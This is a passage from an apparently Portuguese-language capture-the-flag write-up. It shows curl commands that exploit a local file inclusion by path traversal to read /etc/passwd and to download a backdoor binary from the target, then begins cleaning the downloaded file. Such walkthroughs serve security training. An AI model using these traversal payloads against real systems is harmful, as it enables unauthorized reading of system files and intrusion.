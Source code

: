 ```bash
curl 'http://<machine-ip>/incidents?view=../../../../../../../../etc/passwd'
```
![Descrição da imagem](./images/6.png)

## Com o LFI, podemos fazer o download da backdoor:
```bash
curl 'http://<machine-ip>/incidents?view=../../../../../../../../home/share/smbuser/firefox' -o firefox
```
![Descrição da imagem](./images/7.png)

## Ao executar o comando file firefox, observamos que o arquivo não é um ELF , mas sim identificado como DATA . Isso ocorre porque, ao fazer o download da backdoor, o código HTML da página “incidents” foi incluído no arquivo. Para corrigir isso, precisamos remover o conteúdo desnecessário. Utilizei o editor de texto nano para realizar essa limpeza:
